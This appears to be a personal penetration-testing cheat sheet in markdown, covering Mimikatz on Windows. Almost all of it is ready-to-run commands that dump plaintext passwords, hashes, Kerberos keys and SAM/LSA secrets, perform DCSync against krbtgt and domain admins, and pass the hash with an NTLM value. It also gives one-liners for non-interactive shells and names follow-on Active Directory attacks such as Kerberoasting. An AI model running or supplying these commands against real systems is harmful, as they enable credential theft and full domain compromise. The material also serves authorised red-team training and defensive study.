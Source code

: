 May need to transfer over different versions if you get errors

the one i put in ~/tools/windows is x64

need to run as admin usually

Some things to run
```powershell
privilege::debug

token::elevate

sekurlsa::logonpasswords #hashes and plaintext passwords
sekurlsa::credman # windows credential manager
sekurlsa::ekeys # Kerberos keys
lsadump::sam
lsadump::lsa
lsadump::cache
lsadump::secrets

lsadump::sam SystemBkup.hiv SamBkup.hiv
lsadump::dcsync /user:krbtgt
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
BROWSE THE RESULTS CAREFULLY


How to run as other user?
Pth
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>
```

If mimikatz gives issues, you can try running earlier versions or run `impacket-secretsdump`


## One-Liners
Note:
If you have a non-interactive shell, you may need to use a mimikatz one-liner as mimikatz.exe alone will just hang
Everything
```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman" "sekurlsa::ekeys" "lsadump::sam" "lsadump::lsa" "lsadump::cache" "lsadump::secrets" "exit"
```

DCSync
```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::dcsync /domain:<domain> /user:<domain_admin>" "exit"
```


## Afterwards

Be sure to check if any AD attack vectors remain before pivoting. Check bloodhound for asreprostable or kerberostable accounts, etc